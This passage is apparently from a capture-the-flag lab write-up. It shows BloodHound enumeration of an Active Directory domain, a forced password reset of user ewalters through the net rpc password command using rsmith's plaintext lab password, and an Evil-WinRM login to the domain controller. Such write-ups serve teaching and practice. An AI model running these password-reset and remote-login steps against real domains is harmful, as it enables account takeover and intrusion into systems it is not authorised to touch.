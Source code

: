 ```
INFO: Found 19 containers
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: labdc.lab.trusted.vl
INFO: Done in 00M 33S
```

#### Enumerating possible paths from the bloodhound graph

We found out that the user `rsmith` can force a password change for the user `ewalters`, who can then use Evil-WinRM to connect to the labdc host, as shown in the BloodHound graph.

<img src="attachments/6c1f8a6a237a8ad9e6eb1c120001658e.png" />

*The user RSMITH@LAB.TRUSTED.VL has the capability to change the user EWALTERS@LAB.TRUSTED.VL's password without knowing that user's current password.*


```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```
┌──(destiny㉿falcon)-[~/Documents]
└─$ net rpc password "ewalters" "newP@ssword2022" -U "lab.trusted.vl"/"rsmith"%"IHateEric2" -S "lab.trusted.vl" 
```

We were able to log in using Evil-WinRM to `lab.trusted.vl` after changing the user's password, but couldn't find a valid flag.

<img src="attachments/219a69e7f66af8fcbd80c557b51403b0.png" />
